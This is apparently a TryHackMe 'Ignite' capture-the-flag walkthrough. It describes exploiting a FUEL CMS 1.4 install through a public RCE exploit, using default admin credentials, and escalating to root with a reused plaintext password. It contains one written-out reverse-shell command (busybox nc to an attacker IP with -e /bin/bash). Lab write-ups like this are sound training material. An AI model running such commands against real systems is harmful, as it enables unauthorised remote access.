

# Ignite CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Ignite** CTF challenge on [TryHackMe](https://tryhackme.com/room/ignite). 
---

from scan we know about web page on port 80


we see partialy configured FUEL CMS 1.4 we also see admin credentials


for this version there is an exploit from exploit-db that should work


i found working version of the script

now we have Remote Code Execution



i used this command to get better rev shell

```
busybox nc 10.14.X.X 4445 -e /bin/bash
```

we found user flag


using linpeas i only found some plain text password and decided to try to use it as root password


it worked we have root access and root flag


# MACHINE PWNED
